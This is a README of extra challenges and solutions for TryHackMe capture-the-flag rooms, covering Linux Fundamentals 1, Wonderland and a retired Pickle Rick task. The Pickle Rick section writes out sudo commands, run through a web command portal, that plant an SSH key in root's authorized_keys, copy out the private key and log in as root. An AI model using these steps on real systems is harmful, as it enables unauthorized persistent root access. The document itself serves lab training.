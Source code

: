 # TryHackMe Extra Challenges

## Free Rooms Index
<a href="#LinuxFundamentals1">Linux Fundamentals 1</a><br>
<a href="#Wonderland">Wonderland</a><br>
<br>
## Subscriber Rooms Index
tbd<br>
<br>
### Free Rooms Extra Challenges
<h4 id="LinuxFundamentals1"><a href="https://tryhackme.com/room/linux1">Linux Fundamentals 1</a></h4>
Don't follow the directions for using the shiba1 binary, but find another way to discover shiba2's password.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
It's a simple reverse engineering task.

<details>
<summary>Hint 2</summary>
  
<a href="https://linux.die.net/man/1/strings">strings</a>

<details>
<summary>Solution</summary>

Doing <code>strings shiba1</code> and review shows it includes the line "cat /etc/shiba/shiba2".<br>
<code>ls -al /etc/shiba/shiba2</code> shows the file is:<br>
-rw-r--r-- 1 root root 9 Feb 13  2020 /etc/shiba/shiba2<br>
This is readable by any local user, so shiba1 can <code>cat /etc/shiba/shiba2</code> for the password.<br>
      
</details>
</details>
</details>

<br>
<h4 id="Wonderland"><a href="https://tryhackme.com/room/wonderland">Wonderland</a></h4>
The Room is meant to be finished by rooting the box, though both flags can be found with a different method.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Check the flag formats/masks and the Room tags. Tags are sometimes easier to see by doing a <a href="https://tryhackme.com/hacktivities?tab=search">search</a> for the Room name and looking at the preview in results.

<details>
<summary>Hint 2</summary>
  
It is not necessary to Deploy the machine.

<details>
<summary>Solution</summary>

The flag formats for Wonderland are very unusual for TryHackMe: they look like sentences or at least some kind of text. If you search Project Gutenberg, you can find a text-only format of Alice in Wonderland to copy local with:<br>
<code>wget http://www.gutenberg.org/files/11/11-0.txt</code><br>
Now we have the full text and <a href="https://www.gnu.org/software/grep/manual/grep.html#Introduction">grep</a> to search it.<br>
user.txt:<br>
<code>grep -sw -E '[[:graph:]]{10}[[:blank:]][[:graph:]]{3}[[:blank:]][[:graph:]]{11}' 11-0.txt</code><br>
<br>
root.txt is a little tricker by this method. Formatting the whole grep expression is an effort, but even with that dilligence it fails. However, that also requires learning how to add in checks for the commas, or include the counts in the "graph" portions. Those commas look helpful.<br>
Attempting only a search for the first portion:<br>
<code>grep -sw -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns a single match, but on a line alone. Adding in the argument to get this line number from the text:<br>
<code>grep -swn -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns 1737 for the line number. Using the <a href="https://linux.die.net/man/1/sed">sed</a> command to see what is happening in this area of the text:<br>
<code>sed '1732,1742!d' 11-0.txt</code><br>
reveals the two lines, separated from everything else, that can be entered to complete the flag.<br>
      
</details>
</details>
</details>

<br>
### Subscriber Rooms Extra Challenges
tbd<br>
<br>
## Retired Challenges
This is a collection of extra tasks for TryHackMe Rooms that have been patched since they were discovered, and are no longer available.

#### Pickle Rick
A previous version of the machine allowed full sudo in the web command portal. The challenge was to get a root login, which was not a necessary task for completing the Room as intended. The method had an extra step, because it was not possible to `cd` out of /var/www/html. Generating ssh keys in the place required by /etc/ssh/sshd_cofig involved adding an argument to `ssh-keygen`:<br>
extra credit - get shell on box<br>
all work done through web command portal<br>
<br>
sudo mkdir /root/.ssh<br>
sudo ssh-keygen -f /root/.ssh/id_rsa -t rsa -b 2048<br>
sudo cp /root/.ssh/id_rsa.pub /root/.ssh/authorized_keys<br>
sudo less /root/.ssh/id_rsa (copy/paste to text editor and save local)<br>
login as:<br>
ssh -i id_rsa root@$target<br>
<br>

